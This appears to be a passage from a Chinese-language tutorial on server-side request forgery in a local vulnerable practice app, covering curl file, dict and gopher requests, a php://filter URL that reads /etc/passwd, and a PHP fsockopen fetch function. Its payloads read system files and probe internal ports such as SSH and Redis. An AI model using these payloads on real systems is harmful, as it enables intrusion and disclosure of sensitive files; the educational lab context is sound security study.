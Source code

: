 > 参考文献:
>
> ```
> # 利用file协议查看文件
> curl -v 'file:///etc/passwd'
> 
> # 利用dict探测端口
> curl -v 'dict://127.0.0.1:22'
> curl -v 'dict://127.0.0.1:6379/info'
> 
> # Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET,POST 请求。这极大拓宽了 SSRF 的攻击面。例如，利用gopher协议反弹shell。
> ```

#### file_get_contents()

跟上一个同理，url处可以随意构造。这里使用了file_get_contents()，故可以使用php伪协议，例如将/etc/passwd的内容输出：

```
http://localhost:8081/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

成功读取，base64解码即可。

#### fsockopen()

fsockopen的作用主要是与对端服务器建立socket连接。

```php
<?php
function GetFile($host,$port,$link) {
    $fp = fsockopen($host, intval($port), $errno, $errstr, 30);
    if (!$fp) {
        echo "$errstr (error number $errno) \n";
    } else {
        $out = "GET $link HTTP/1.1\r\n";
        $out .= "Host: $host\r\n";
        $out .= "Connection: Close\r\n\r\n";
        $out .= "\r\n";
        fwrite($fp, $out);
        $contents='';
        while (!feof($fp)) {
            $contents.= fgets($fp, 1024);
        }
        fclose($fp);
        return $contents;
    }
}
?>
```

> 这段代码使用 fsockopen 函数实现获取用户制定 URL 的数据（文件或者 HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

最简单的应用可以设置 DNS log 绕过 CDN 看真实 IP.
